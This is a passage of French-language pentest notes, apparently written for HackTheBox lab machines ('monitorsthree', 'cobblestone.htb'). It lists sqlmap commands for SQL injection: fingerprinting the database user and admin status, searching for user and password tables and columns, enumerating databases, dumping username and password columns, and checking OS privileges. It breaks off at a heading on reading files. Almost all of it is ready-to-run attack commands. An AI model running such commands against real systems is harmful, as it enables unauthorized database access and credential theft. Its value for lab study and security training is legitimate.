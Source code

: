 ### Identifier la version, de l'utilisateur actuel et s'il est dba, ainsi que la base de donnée actuelle

```
sqlmap <curl_request> --batch --banner --current-user --current-db --is-dba --threads 10 --level 5 --risk 3
```

### Rechercher les tables contenant le mot 'user'

```
sqlmap <curl_request> --batch --search -T user --threads 10 --level 5 --risk 3
```

### Rechercher les colonnes contenant le mot 'password'

```
sqlmap <curl_request> --batch --search -C password --threads 10 --level 5 --risk 3
```

### Identifier les bases de données

```
sqlmap <curl_request> --batch --dbs --threads 10 --level 5 --risk 3
```

### Identifier les tables d'une base de données:

```
sqlmap <curl_request> --batch -D monitorsthree --tables --threads 10 --level 5 --risk 3
```

### Identifier les colonnes d'une table

```
sqlmap <curl_request> --batch -D monitorsthree -T users --columns --threads 10 --level 5 --risk 3
```

### Dump les données des colonnes souhaitées

```
sqlmap <curl_request> --batch -D monitorsthree -T users -C username,password --dump --threads 10 --level 5 --risk 3
```


## Interaction avec l'OS

### Verifier Privileges

```
sqlmap -r vote.cobblestone.htb/vote_suggest.req --batch --threads 5 --no-cast --privileges
```

### Lire un fichier
